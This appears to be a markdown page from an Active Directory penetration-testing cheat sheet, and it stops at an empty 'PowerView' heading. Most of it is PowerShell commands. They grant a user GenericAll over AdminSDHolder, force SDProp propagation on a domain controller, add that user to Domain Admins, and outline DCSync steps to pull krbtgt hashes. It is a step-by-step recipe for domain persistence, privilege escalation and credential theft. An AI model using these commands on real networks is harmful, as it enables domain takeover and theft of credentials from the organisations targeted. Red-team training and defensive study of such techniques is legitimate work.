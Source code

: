 ## <span style="color:lightgreen">Get Generic-All Access </span>

### <span style="color:#F1C232">Import the ADModule and set the SDPropagator PS script in the same path folder</span>

```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights All -Verbose

$sess = New-PSSession -Computername star-dc.root.local
Invoke-Command -FilePath ".\Invoke-SDPropagator.ps1" -Session $sess
Enter-PSSession -Session $sess

[star-dc.root.local]:PS> Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

### <span style="color:#F1C232">Now if we check the permissions of the user he should have generic-all access available</span>

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}
```

## <span style="color:lightgreen">Abusing Generic-All Access</span>

### <span style="color:#F1C232">Abusing Full-Control</span>
 
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user1' -Verbose
```

# <span style="color:lightblue">ACL - DCSync</span>

* There are even more interesting ACLs which can be abused.

* For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Check if user has replication rights with PowerView
- [x] 2. If no replication rights for the users, add them from a Domain Administrator shell
- [x] 3. Get the hashes of krbtgt or any other user we want

## <span style="color:lightgreen">PowerView</span>
